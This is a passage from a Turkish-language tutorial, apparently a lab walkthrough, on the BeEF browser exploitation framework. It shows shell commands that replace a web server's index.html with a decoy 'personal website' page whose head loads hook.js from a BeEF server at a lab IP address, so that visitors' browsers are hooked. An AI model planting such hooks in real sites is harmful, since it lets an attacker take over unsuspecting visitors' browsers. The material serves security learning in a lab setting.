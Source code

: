 <figure><img src="../.gitbook/assets/beef/image19.png" alt="" width="541"><figcaption></figcaption></figure>

hook.js dosyasını not ettikten sonra /var/www/html altında bulunan dosyayı düzenleyebiliriz. Öncelikle istediğimiz dizine gidip orada bulunan index.html'i silmek istiyorum. Sonrasında kendi index.html dosyamı oluşturacağım. Sırasıyla şu komutlarla devam ediyoruz.

```
cd /var/www/html
sudo rm index.html
nano index.html
```

Açılan pencereye şu html templateini yapıştırıyoruz.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="http://192.168.19.138:3000/hook.js"></script>
    <!-- UST KISMA SIZIN hook.js LINKINIZ GELICEK-->
</head>
<body>

    <h3>Kişisel WEB sitesi</h3>

    <p>Lorem Ipsum Lorem Ipsum</p>

</body>
</html>
```

